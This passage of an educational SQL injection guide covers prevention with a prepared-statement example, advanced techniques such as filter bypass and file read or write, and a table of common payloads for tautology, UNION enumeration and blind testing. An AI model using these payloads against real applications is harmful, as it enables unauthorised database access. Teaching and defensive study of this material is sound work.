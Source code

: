 
## 🛡 6. Prevention

### **Best Practices**

- **Parameterized Queries / Prepared Statements**

  Example in PHP (PDO):

  ```php
  $stmt = $pdo->prepare('SELECT * FROM users WHERE username = ? AND password = ?');
  $stmt->execute([$username, $password]);
  ```

- **Stored Procedures** (with care)
- **Input Validation** — allowlists for expected formats.
- **Least Privilege** — DB user should have minimal rights.
- **Error Handling** — show generic errors, log details internally.
- **Web Application Firewall (WAF)** — detect/block known patterns.

---

## 🏆 7. Advanced Exploitation Techniques

- **Second-Order SQLi** : Malicious input stored in DB and executed later in a different query.
- **Stacked Queries** : Multiple queries in one request (if DB supports `;`).
- **Bypassing Filters** :
- Using comments: `admin'--`
- Case changes: `UnIoN SeLeCt`
- Encoding: `%27` for `'`
- **Privilege Escalation** : Using SQLi to create new DB users with admin rights.
- **File Read/Write** : MySQL `LOAD_FILE()` or `SELECT ... INTO OUTFILE`.

---

## 📜 8. Quick Reference — Common Payloads

| Purpose            | Payload                                                            |
| ------------------ | ------------------------------------------------------------------ |
| Test for injection | `' OR '1'='1--`                                                    |
| Union select       | `' UNION SELECT null, version()--`                                 |
| DB enumeration     | `' UNION SELECT table_name, null FROM information_schema.tables--` |
| Blind boolean      | `' AND 1=1--`/`' AND 1=2--`                                        |
| Blind time-based   | `' OR IF(1=1, SLEEP(5), 0)--`                                      |

---

💡 **In short:**

SQL Injection is like slipping extra instructions into a waiter’s order to the kitchen — if the waiter doesn’t check, you can get anything you want from the kitchen, not just what’s on the menu. In security terms, it’s one of the most powerful and dangerous vulnerabilities because it can lead to **full database compromise** and often **full system compromise** .

---